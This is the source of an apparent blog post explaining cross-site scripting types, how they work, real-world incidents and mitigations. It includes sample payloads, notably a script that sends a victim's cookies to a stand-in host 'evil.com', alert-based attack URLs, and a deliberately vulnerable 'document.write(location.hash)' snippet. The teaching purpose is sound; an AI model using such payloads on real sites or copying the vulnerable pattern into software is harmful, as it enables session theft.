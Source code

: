 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-24
layout: post
tag: [OWASP, Web Security, XSS]
---
```


&nbsp; <!-- Table of Contents -->
&nbsp; <div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">

&nbsp;   <strong>Table of Contents</strong>

&nbsp;   <ul>
&nbsp;     <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
&nbsp;     <li><a href="#types-of-xss">Types of XSS</a>
&nbsp;       <ul>
&nbsp;         <li><a href="#1-stored-xss">1. Stored XSS</a></li>
&nbsp;         <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
&nbsp;         <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
&nbsp;       </ul>
&nbsp;     </li>
&nbsp;     <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
&nbsp;     <li><a href="#real-world-examples">Real-World Examples</a></li>
&nbsp;     <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
&nbsp;     <li><a href="#conclusion">Conclusion</a></li>
&nbsp;     <li><a href="#references">References</a></li>
&nbsp;   </ul>

&nbsp; </div>
</div>

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**
1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

**Mitigation:**  
Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).


### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**
1. Attacker crafts a malicious link containing JavaScript code in a parameter.
2. Victim clicks the link and sends a request to the vulnerable application.
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload in URL:**
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Mitigation:**  
Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**
1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.
3. The browser executes the malicious code.

**Example vulnerable code:**
```javascript
document.write(location.hash);
```

**Example attack URL:**
```
https://example.com/page#<script>alert('XSS')</script>
```

**Mitigation:**  
Avoid dangerous DOM manipulation methods like `document.write()` and `innerHTML` with untrusted data; use safe DOM APIs like `textContent` or `setAttribute()`; sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.
2. **Execution:** The victim’s browser renders the page and runs the script.
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.
- Use context-specific output encoding.
- Enforce a strong Content Security Policy (CSP).
- Avoid unsafe JavaScript functions and DOM manipulation methods.
- Use security features provided by frameworks.
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)


